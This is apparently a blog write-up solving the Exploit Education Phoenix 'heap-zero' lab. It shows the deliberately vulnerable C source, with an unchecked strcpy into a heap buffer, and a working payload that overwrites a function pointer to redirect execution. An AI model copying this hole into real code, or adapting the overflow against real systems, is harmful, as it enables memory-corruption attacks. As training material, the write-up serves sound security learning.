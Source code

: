 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Heap Zero"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

To learn more about heap exploitation, see the references at the end.

We will work with the **32bit** binaries for the heap levels because the **64bit** binaries have some addresses issues.

This code allocates two memory chunks and stores them in **d** and **f** so **f** is after **d** in the heap, then it uses **strcpy** to copy **argv[1]** to **d->name** but with out size checking, a classic overflow.

So if our input is large enough we can overwrite the value of **f->fp** to point to **winner** function.

Let's run the program:

```
$ /opt/phoenix/i486/heap-zero AAAA
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
level has not been passed - function pointer has not been overwritten
```

The offset between **data** and **fp** = 0xf7e69050 - 0xf7e69008 = 72 bytes.

Lets't get the address of winner function:

```
$ objdump -t /opt/phoenix/i486/heap-zero | grep winner
0804884e g     F .text	00000019 nowinner
08048835 g     F .text	00000019 winner
```

**winner** function is at  **0x08048835**.

# Solution:

```
$ /opt/phoenix/i486/heap-zero $(python -c "print 'A'*72 + '\x35\x88\x04\x08'")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

#### References:

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)
